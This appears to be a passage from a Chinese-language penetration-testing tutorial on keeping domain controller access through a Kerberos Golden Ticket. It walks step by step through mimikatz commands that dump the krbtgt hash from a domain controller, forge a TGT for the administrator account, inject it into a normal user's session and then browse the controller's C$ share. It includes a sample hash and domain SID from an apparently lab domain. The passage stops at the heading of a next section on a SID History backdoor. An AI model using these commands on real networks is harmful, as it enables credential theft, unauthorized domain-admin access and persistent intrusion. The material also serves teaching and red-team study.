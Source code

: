 域控权限维持
------

### 黄金票据

> 假设又这么一种情况，我们已拿到的域内所有的账户Hash，包括krbtgt账户，由于有些原因导致你对域管权限丢失，但好在你还有一个普通域用户权限，碰巧管理员在域内加固时忘记重置krbtgt密码，基于此条件，我们还能利用该票据重新获得域管理员权限，利用krbtgt的HASH值可以伪造生成任意的TGT(mimikatz)，能够绕过对任意用户的账号策略，让用户成为任意组的成员，可用于Kerberos认证的任何服务。

首先，我们登上域控制器，像之前一样用shellcode_inject启动mimikatz，然后执行如下命令抓取krbtgt用户的Hash值并获取域sid：

```
`privilege::debug``lsadump::lsa /patch        // 专用于在域控制器上导出用户密码或hash`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210120011748380

如上图所示，我们得到krbtgt用户的Hash为：82dfc71b72a11ef37d663047bc2088fb，域sid为S-1-5-21-2756371121-2868759905-3853650604

然后，我们切换到普通域用户的WEB主机或PC主机，用mimikatz生成名为ticket.kirbi的TGT凭证，用户名为域管理员用户（administrator）：

```
`kerberos::golden /user:administrator /domain:de1ay.com /sid:S-1-5-21-2756371121-2868759905-3853650604 /krbtgt:82dfc71b72a11ef37d663047bc2088fb /ticket:ticket.kirbi` `# kerberos::golden /user:需要伪造的域管理员用户名 /domain:demo.com /sid:域sid /krbtgt: krbtgt用户的Hash /ticket:ticket.kirbi`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210120014900469

生成TGT凭证ticket.kirbi成功，名为ticket.kirbi，然后再在mimikatz中将凭证ticket.kirbi注入进去：

```
`kerberos::purge   //先清空所有票据``kerberos::ptt ticket.kirbi    //再将生成的票据注入域用户主机Windows7中``// kerberos::ptt <票据文件>`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210120015005714

此时查看当前会话中的票据，就可以发现刚刚注入的票据在里面了：

```
kerberos::tgt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210120015100473

到此，注入成功。输入“exit”退出mimikatz，此时，攻击者就可以利用这台普通域用户的主机任意访问域控制器了，如下列出域控的C盘目录：

```
dir \\DC\c$
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210120015623062

也可以使用psexec，wmi等方法通过WEB主机对DC进行远程执行命令了，具体操作不再演示。

### SID History域后门
